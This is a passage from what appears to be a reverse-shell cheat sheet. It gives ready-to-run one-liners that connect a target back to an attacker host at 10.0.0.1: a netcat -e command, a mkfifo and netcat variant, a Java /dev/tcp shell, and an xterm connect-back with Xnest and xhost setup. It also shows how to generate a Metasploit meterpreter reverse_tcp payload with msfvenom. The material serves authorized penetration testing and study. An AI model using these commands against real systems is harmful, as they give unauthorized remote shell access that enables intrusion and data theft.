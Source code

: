  nc -e /bin/sh 10.0.0.1 1234

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# Java
 r = Runtime.getRuntime()
 p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
 p.waitFor()
[Untested submission from anonymous reader]

# xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

 xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

 Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):
 xhost +targetip

# Metasploit

Creating Metasploit Payloads

Peleus 

Often one of the most useful (and to the beginner underrated) abilities of Metasploit is the msfpayload module. Multiple payloads can be created with this module and it helps something that can give you a shell in almost any situation. For each of these payloads you can go into msfconsole and select exploit/multi/handler. Run ‘set payload’ for the relevant payload used and configure all necessary options (LHOST, LPORT, etc). Execute and wait for the payload to be run. For the examples below it’s pretty self explanatory but LHOST should be filled in with your IP address (LAN IP if attacking within the network, WAN IP if attacking across the internet), and LPORT should be the port you wish to be connected back on.

List payloads 

 msfvenom -l

Binaries 

# Linux 

 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
